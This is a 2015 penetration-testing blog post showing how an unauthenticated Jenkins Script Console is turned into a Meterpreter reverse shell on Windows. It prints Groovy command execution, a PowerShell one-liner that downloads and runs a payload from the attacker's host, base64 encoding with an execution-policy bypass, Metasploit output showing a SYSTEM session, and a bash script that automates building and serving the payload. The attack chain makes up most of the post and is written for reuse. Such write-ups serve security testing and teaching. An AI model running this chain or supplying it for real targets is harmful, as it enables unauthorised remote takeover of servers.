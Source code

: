 ```yaml
---
layout: post
title: "jenkins to meterpreter - toying with powersploit"
date: 2015-05-26 20:40:40 +0200
comments: true
categories:
- powershell
- meterpreter
- jenkins
- command execution
---
```


{% img right https://i.imgur.com/DNRQ8Nv.png %}

Recently I came across a few [Jenkins](https://jenkins-ci.org/) continuous integration servers. A relatively old version I might add but that fact was not important. What was important though was the fact that it was not configured to be *'secure'*. Right out of the box Jenkins does not require any authentication to make use of it. In fact, it seems like its almost plug and play.
<!--more-->

## groooooooovy
At first glance I was not too sure about what opportunities I was presented with when finding this. Poking around through the web interface eventually got me to the *Script Console* that Jenkins provides:

{% img https://i.imgur.com/5X43NOP.png %}

This looked promising. *'Type in an arbitrary Groovy script and execute it on the server.'* I had zero idea what Groovy Script was so to the le-Googles it was. Some research revealed that it is actually possible to execute commands using it. In fact, the syntax was quite expressive as explained in the [documentation](http://www.groovy-lang.org/groovy-dev-kit.html#process-management).

```text
def process = "ls -l".execute()
println "Found text ${process.text}"
```

The documentation goes into enough detail explaining the different options you have to execute commands, but the above snippet was enough to get going. To help with testing, I setup a local instance of the latest Jenkins (v1.615) and ran the Groovy Script. Remember, I was able to do this without any authentication requirement!

{% img https://i.imgur.com/UY83gvp.png %}

Nice and easy command execution! :D

## interactive shell, power shell
Getting an interactive shell on linux based hosts was as simple as picking your favorite flavor of [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and moving on from there. On Windows based environments though, the builtin `cmd.exe` definitely has its limitations. For this reason, reaching out for a meterpreter shell is almost a knee-jerk reaction.

The one Jenkins machine that I had found was running on Windows as `nt authority\system`, which of course was *great* news! I figured though that in order to get a meterpreter shell, I'd have to approach this in some conventional way. Either obtaining credentials somehow and launching it with say the metasploit SMB PSExec, or uploading an .exe somehow and executing that. Some investigations showed though that the AV on the box was killing the meterpreter.exe on the box so that option was out as well. So, next on the list? I could just make use of `Invoke-Shellcode.ps1` from [PowerSploit](https://github.com/mattifestation/PowerSploit) to download and execute one using one command.

Admittedly, I have never actually done this so a little Google-fu and research was needed to get it working right, but eventually this payed off.

In essence, getting the meterpreter shell up required 2 things (apart from the command execution). A `payload` which includes the `Invoke-Shellcode.ps1` powershell script together with the meterpreter connection details, and an encoded powershell command to be executed using the command execution we have. Together these will download the hosted payload and prepare the meterpreter. If this sounds a little confusing, don't worry it should be more clear after we have gone through it.

## preparing the payload
As already mentioned, I was going to use `Invoke-Shellcode.ps1` from [PowerSploit](https://github.com/mattifestation/PowerSploit). This will go into the payload that needs to be downloaded to bring the meterpreter up. When talking about *payload* here, all it really is is a file that will be made available via HTTP for the powershell script to download.

The payload will consist of 2 parts. First, defining `function Invoke-Shellcode {}`, and then invoking the function for a `windows/meterpreter/reverse_https` shell. Kali Linux has powersploit available in `/usr/share` so all I really did was cat it to my `payload` file:

```bash
$ cat /usr/share/powersploit/CodeExecution/Invoke-Shellcode.ps1 > payload
```

After that, I added the following line to the `payload` file which will invoke the introduced function and connect the meterpreter. My listener was on 192.168.252.1 on port 443:

```bash
Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.252.1 -Lport 443 -Force
```

This file was finally served via HTTP using the python SimpleHTTPServer with `python -m SimpleHTTPServer` which meant that it would be available at http://192.168.252.1:8000/payload.

## preparing the command
Next, we need to prepare the actual command to run. We will make use of the powershell [Invoke-Expression](https://technet.microsoft.com/en-us/library/hh849893.aspx) command and give it a [Net.WebClient.DownloadString](https://msdn.microsoft.com/en-us/library/ms144200(v=vs.110.aspx) object to download the payload we previously prepared and execute it.

```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')
```

That whole command needs to be [encoded](http://blogs.msdn.com/b/timid/archive/2014/03/26/powershell-encodedcommand-and-round-trips.aspx) so that, using the command injection, we can run powershell and not worry about escaping and things like that. I found some snippets online to help with this.

```bash
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
```

The above will output a base64 encoded string that should be passed to the Powershell `-Enc` flag for execution. The last hurdle to overcome was a potential execution policy. The tl;dr of this is that it can be bypassed by simply passing `-Exec ByPass` to the powershell executable. So, in summary, the command will be as follows:

```powershell
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4 [snip] BjBkACcAKQAKAA==
```

## pwn
So, I now had the `payload` file available for download via HTTP, and the command I needed to run. The last thing I had to do was setup a reverse_https listener in metasploit and run the command!

{% img https://i.imgur.com/xBh1Uz9.png %}

From the python web server we can see the request come in for the payload:

```text
192.168.252.100 - - [28/May/2015 12:37:15] "GET /payload HTTP/1.1" 200 -
```

And pop!

```bash
msf exploit(handler) > exploit

[*] Started HTTPS reverse handler on https://0.0.0.0:443/
[*] Starting the payload handler...
[*] 192.168.252.100:54023 Request received for /INITM...
[*] 192.168.252.100:54023 Staging connection for target /INITM received...
[*] Meterpreter session 1 opened (192.168.252.1:443 -> 192.168.252.100:54023) at 2015-05-28 12:37:17 +0200

meterpreter >
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## automation
While testing this, I slapped together a small script that will prepare the command to run and start the SimpleHTTPServer:

```bash
#!/bin/bash

# meterpreter ip & port
lhost=192.168.252.1
lport=443

echo " * Writing Payload"
cat /usr/share/powersploit/CodeExecution/Invoke-Shellcode.ps1 > payload
echo "Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost $lhost -Lport $lport -Force" >> payload

echo " * Prepping Command"
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://$lhost:8000/payload')"
echo $scriptblock

echo
echo " * Encoding command"
encode="`echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0`"
echo $encode

command="cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc $encode"
echo
echo " * Final command"
echo $command

echo
echo " * Starting HTTP Server to serve payload"
python -m SimpleHTTPServer
```